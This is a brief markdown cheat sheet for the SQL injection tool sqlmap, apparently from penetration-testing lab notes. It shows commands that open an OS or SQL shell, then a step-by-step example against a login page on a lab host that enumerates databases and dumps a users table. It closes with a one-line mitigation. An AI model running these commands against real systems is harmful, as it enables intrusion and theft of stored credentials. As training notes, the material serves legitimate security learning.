 # SQLMAP

## Commands
- ```sqlmap --help```
- ```sqlmap -u [target url]```
- ```sqlmap -u [target url] --os-shell```
- ```sqlmap -u [target url] --sql-shell```

## Example
- Login page
```
sqlmap -u https://admin-portal.htb/login.php --form --dbs
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass"
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" --dbs
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin --tables
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin -T users --columns
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin -T users --dump
```

## Mitigation
- Use parametrized statements, separate data from sql code
